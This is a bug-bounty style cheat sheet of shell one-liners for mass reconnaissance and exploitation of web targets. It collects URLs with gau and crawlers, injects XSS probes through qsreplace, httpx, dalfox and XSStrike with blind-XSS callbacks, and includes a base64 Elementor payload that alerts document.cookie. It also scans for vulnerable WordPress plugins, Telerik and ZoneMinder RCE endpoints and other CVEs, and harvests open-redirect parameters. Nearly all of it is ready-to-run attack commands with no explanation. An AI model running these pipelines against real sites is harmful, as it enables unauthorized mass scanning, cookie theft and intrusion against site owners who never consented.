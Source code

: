 ## XSS
    echo vulnweb.com | gau | tee domain.txt
    httpx -l domain.txt -mc 200,302 -o domain200.txt 
    cat domain200.txt | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | tee domain4xss.txt 
    cat urls.txt | uro 
    dalfox file domain4xss.txt -b (xss.ht or collaborator) pipe 
    cat indeed.txt | kxss > xss.txt 
    python XSStrike/xsstrike.py --seeds domain4xss.txt --fuzzer --level 3 -rate 2 --blind --file-log-level WARNING --log-file output.log

    cat list.txt | httpx | xargs -I {} python xsstrike.py -u {} --level 3  --blind --file-log-level WARNING --log-file output.log

## paramReflect
    cat urls.txt | go run ParamsReflect.go
    cat injected_urls.txt | sort -u | httpx -ms "<h1>akira</h1>" -fe "Location: .*<h1>akira</h1>.*" -t 200

## gau+uro+httpx(My Xss)
     cat domains.txt | gau --blacklist 3dm,3ds,3gp,7z,aac,ai,aif,apk,avi,bat,bin,BMP,bz2,cfg,class,CR2,csh,css,csv,dat,deb,dmg,doc,docx,dwg,eot,EPS,exe,EXIF,flac,flv,gba,gdb,gif,gz,HEIC,hqx,ICO,ico,ics,iso,jar,jpeg,jpg,js,json,lua,m4a,m4v,mov,mp3,mp4,msi,NEF,nes,nrg,odp,ods,odt,ogg,ogv,otf,PBM,pdf,PGM,pkg,plist,png,PPM,ppt,pptx,ps,PSD,RAW,rb,rpm,rtf,srt,SVG,svg,swf,sys,tar,TGA,TIFF,ttf,txt,vob,wav,WEBP,webp,woff,woff2,xls,xlsx,xml,xpi,yaml,z64,z7,zip --providers wayback,commoncrawl,otx,urlscan --mt text/html,application/xhtml+xml,application/xml,application/xml+html,application/vnd.wap.xhtml+xml,application/xhtml+xml,text/xml --subs --fp --o domain4xss.txt

     cat domains.txt | uro --filter hasparams | qsreplace '"><h1>Akira</h1>' > domain4httpx.txt

     cat domain4httpx.txt | httpx -ms "<h1>Akira</h1>" -ct -t 200 -o bounty.txt

    #Note: have a server ? use:
    cat domains.txt | gau --providers wayback,commoncrawl,otx,urlscan --mt text/html,application/xhtml+xml,application/xml,application/xml+html,application/vnd.wap.xhtml+xml,application/xhtml+xml,text/xml --subs --fp | uro | grep -E 'https?://[^?]+\?[a-zA-Z0-9_]+=[^&]+(&[a-zA-Z0-9_]+=[^&]+)*' | qsreplace %22%3E%3Ch1%3EAkira%3C%2Fh1%3E | httpx -ms "<h1>Akira</h1>" -ct -t 200 -o bounty.txt
   
## one-Line:
    cat Domains.txt | gau | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | uro | httpx -o domain4xss.txt

    cat params.js [.py|.go|paramspider.py] | uro --filter hasparams -b jpg png js json pdf txt -o 4xss.txt
## subdomain enumeration
    amass enum -active -d <DOMAIN> -dir amass_active/<DOMAIN>/
    amass enum -passive -d <DOMAIN> -dir amass_passive/<DOMAIN>/
    assetfinder <DOMAIN> | tee ./subdomains/assetfinder.txt

## web crawling
    for i in $(cat hosts-urls.txt); do katana -u $i >> ./katana_rzlts.txt; done
    cat hosts-urls.txt | hakrawler -timeout 5 -subs | tee ./hakrawler_rzlts.txt
    cat hosts-live.txt | gau --threads 15 | tee ./gau_rzlts.txt
    cat hosts-live.txt | waybackurls | tee ./wburls_rzlts.txt

## filtering
        cat katana_rzlts.txt hakrawler_rzlts.txt gau_rzlts.txt wburls_rzlts.txt | sort -u > uniq.txt; cat uniq.txt | grep "<DOMAIN>" | grep "\?" > 4xss.txt

## only params:
    grep -E -o 'https?://[^ ]+\?.+' filename

## wordpressXss:
    cat domain.txt | httpx -path "/wp-admin/admin-ajax.php?action=ptp_design4_color_columns&post_id=1&column_names=%3Ch1%3EAkira%3C/h1%3E" -ms "<h1>Akira</h1>" -fe "Location: .*<h1>Akira</h1>.*" -t 200 -mc 200

## Telerik_RCE(CVE-2017-11317)
    cat subs.txt | httpx -path "/Telerik.Web.UI.WebResource.axd?type=rau" -ms '"RadAsyncUpload handler is registered succesfully' -t 200 -o telerik2.txt
    
## zoneminder_RCE CVE-2023-26035
    cat alldomains.txt | httpx -path "/index.php" -ms 'name="__csrf_magic"' -t 200 -o CVE-2023-26035.txt

## CVE-2023-38388
    cat privates/domainsroot.txt | httpx -path "/wp-content/plugins/jupiterx-core/readme.txt" -ms "Jupiter X Core" -o jupiter.txt

## CVE-2023-4596
    cat bugbounty/subs.txt | httpx -path '/wp-content/plugins/forminator/readme.txt' -ms  "Stable tag: 1\.([0-2][0-9]|3[0-6])\.[0-9]+" -o "forminator.txt"

## TeamCity
    cat alldomains.txt | httpx -path "/login.html" -ms "log in to teamcity" -o teamcity.txt

## CVE-2023-35078
    cat alldomains.txt | httpx -ms "ui.login.css?" -o CVE-2023-35078.txt

    /wp-content/plugins/forminator/readme.txt
## Elementor Xss
    cat subs.txt | httpx -path "wp-content/plugins/elementor/readme.txt" -mr "(?i)Stable tag: (3\.[0-5]\.[0-5]\d*)" -o elementor.txt -t 200
    www.target.com/#elementor-action:action=lightbox&settings=ewogICAgInR5cGUiOiAidmlkZW8iLAogICAgInVybCI6ICJodHRwOi8vIiwKICAgICJ2aWRlb1R5cGUiOiAiaG9zdGVkIiwKICAgICJ2aWRlb1BhcmFtcyI6IHsKICAgICAgICAib25lcnJvciI6ImFsZXJ0KGRvY3VtZW50LmRvbWFpbisnICcrZG9jdW1lbnQuY29va2llKSIsCiAgICAgICAgInN0eWxlIjogImJhY2tncm91bmQtY29sb3I6cmVkIgogICAgfQp9
    
## Symphonic
    cat subs.txt | httpx -path "_fragment" -ms 'Oops An Error Occurred' -o symphonic.txt -t 200
    
## Open Redirect
    cat URlSubs.txt | ~/go/bin/httpx -path "/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a%3Cscript%3Ealert('XSSSS')%3C/script%3E" -ms "XSSSSS" -fe "Location: .*XSSS.*" -t 200 -o xss.txt

    
    echo "https://web.archive.org/cdx/search/cdx?url=*.example.com&fl=original&collapse=urlkey" | httpx -er '(https?://[^&\s]+)[^&\s]*(\?|&)(outurl=|redirectionURL=|refURL=|returnURL=|siteurl=|targetURL=|urlTo=|redirectLocation=|redirectPage=|redirectPath=|redirectUrlTo=|urlRedirect=|redirectTo=|linkTo=|urlOut=|outboundUrl=|navTo=|jumpTo=|clickTo=|linkURL=|directTo=|moveTo=|outgoing_url=|outbound_link=|location_to=|forward=|from_url=|go=|goto=|host=|html=|image_url=|img_url=|load_file=|load_url=|login?to=|login_url=|logout=|navigation=|next=|next_page=|out=|page=|page_url=|path=|port=|redir=|redirect=|redirect_to=|redirect_uri=|redirect_url=|reference=|return=|returnTo=|return_path=|return_to=|return_url=|rt=|rurl=|show=|site=|target=|to=|uri=|url=|val=|validate=|view=|window=|location=|link=|click=|move=|jump=|follow=|nav=|ref=|locationURL=|redirectURL=|redirect_to_url=|pageurl=|navigate=|returnUrl=|redirectlink=|redirection=|referral=|direct=|forwardto=|gotoURL=|outlink=|targ=|linkto=|sendto=|dest=|destURL=|destination=|finalURL=|newUrl=|goToUrl=|navToURL=|referralURL=|returnURI=|uri_redirect=|path_redirect=|url_redirect=|location_redirect=|returnPath=|returnToURL=|outgoingURL=|redirectURI=|redirect_path=|redirect_url_path=|targetPath=|clickTarget=|followURL=|linkOut=|location_href=|jumpURL=|returnLink=|refLink=|sendURL=|url_destination=|redirect_destination=|goto_url=|forward_url=|nav_to=|move_to_url=|url_location=|redirect_location=|target_url=|target_link=|return_url_path=|return_to_path=|outgoing_link=|link_destination=|click_destination=|redirector=|redirection_link=|uri_location=|url_path=|path_to=|path_redirector=|go_url=|forward_link=|location_path=)[^&\s]*' -json | jq '.extracts[]' | sed 's/  "//g'| sed 's/"//g' | sed 's/\[//g' | sed 's/\]//g' | sed 's/,//g' > openredirect.txt

## Host:
    cat domains.txt | httpx -H "Host: example.com" -t 200 -ms 'example.com' -mc 200 -fe "Location: .*example.com.*"
    
## Nuclie
    cat domains.txt | nuclei -nt -es info -ept ssl -o data.txt
    nuclei -l domains.txt -nt -o data.txt
    nuclei -l domains.txt -t cves/2023 -o data.txt
    nuclei -l domains.txt -es info -ept ssl -o data.txt
    
# dirsearch 
    dirsearch -l domain200.txt -e '' -i 200-299 -x 300-599

